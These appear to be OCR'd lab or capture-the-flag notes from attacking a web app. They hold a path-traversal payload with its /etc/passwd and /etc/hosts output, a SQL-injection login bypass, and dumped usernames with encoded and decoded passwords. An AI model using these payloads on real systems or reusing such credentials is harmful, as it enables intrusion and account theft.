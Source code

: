 				daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
				bin:x:2:2:bin:/bin:/usr/sbin/nologin
				sys:x:3:3:sys:/dev:/usr/sbin/nologin
				sync:x:4:65534:sync:/bin:/bin/sync
				games:x:5:60:games:/usr/games:/usr/sbin/nologin
				man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
				lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
				mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
				news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
				uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
				proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
				www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
				backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
				list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
				irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
				gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
				nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
				systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
				systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
				syslog:x:102:106::/home/syslog:/usr/sbin/nologin
				messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
				_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
				lxd:x:105:65534::/var/lib/lxd/:/bin/false
				uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
				dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
				landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
				sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
				pollinate:x:110:1::/var/cache/pollinate:/bin/false
				ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
				mysql:x:111:115:MySQL Server,,,:/nonexistent:/bin/false
				user2:x:1001:1001::/home/user2:/bin/sh
			../../../../../../etc/hosts
				fe00::0 ip6-localnet
				ff00::0 ip6-mcastprefix
				ff02::1 ip6-allnodes
				ff02::2 ip6-allrouters
				ff02::3 ip6-allhosts
				192.168.28.181 WebApp
		*Employee Login Page
			Tom' or 1='1
				Use F12>Network to capture the Post and append it after the .php?
Array
(
    [0] => user2
    [name] => user2
    [1] => RntyrfVfNER78
    [pass] => RntyrfVfNER78			EaglesIsARE78
)
1Array
(
    [0] => user3
    [name] => user3
    [1] => Obo4GURRnccyrf
    [pass] => Obo4GURRnccyrf			Bob4THEEapples
)
1Array
(
    [0] => Lee_Roth
    [name] => Lee_Roth
    [1] => anotherpassword4THEages
    [pass] => anotherpassword4THEages
)
1
